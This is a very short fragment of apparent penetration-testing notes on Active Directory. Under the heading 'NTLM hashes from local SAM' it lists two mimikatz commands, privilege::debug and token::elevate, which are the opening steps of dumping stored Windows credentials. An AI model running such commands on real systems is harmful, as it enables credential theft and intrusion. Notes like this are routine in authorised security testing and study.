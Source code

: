 # Active Directory

NTLM hashes from local SAM.

`mimikatz \# privilege::debug`
`mimikatz \# token::elevate`

